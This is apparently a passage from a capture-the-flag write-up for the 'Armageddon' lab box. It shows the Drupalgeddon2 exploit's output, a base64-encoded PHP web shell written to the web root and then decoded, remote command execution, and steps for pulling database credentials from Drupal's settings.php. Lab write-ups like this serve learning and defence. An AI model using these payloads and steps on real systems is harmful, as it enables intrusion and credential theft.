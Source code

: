 ```bash
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication
[root@kali exploits ]$ ruby 44449.rb http://10.10.10.233
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.233/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.233/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo KJEXSXME
[+] Result : KJEXSXME
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.233/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://10.10.10.233/shell.php' -d 'c=hostname'
armageddon.htb>> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
armageddon.htb>> 
```
unfortunately we cannot spawn a shell with a full tty because this box is giving some io device error.
## User
Once we are logged in we can poke around into drupal configuration files to see if we can discover some database credentials.  
Looking at google, we can see that drupal stores db credentials in `/var/www/html/sites/default/settings.php` .  
Into this file we can find the following definition:
```php
$databases = array (                                                                                                  
  'default' =>                                                                                                        
  array (                                                                                                             
    'default' =>                                                                                                      
    array (                                                                                                           
      'database' => 'drupal',                                                                                         
      'username' => 'drupaluser',                                                                                     
```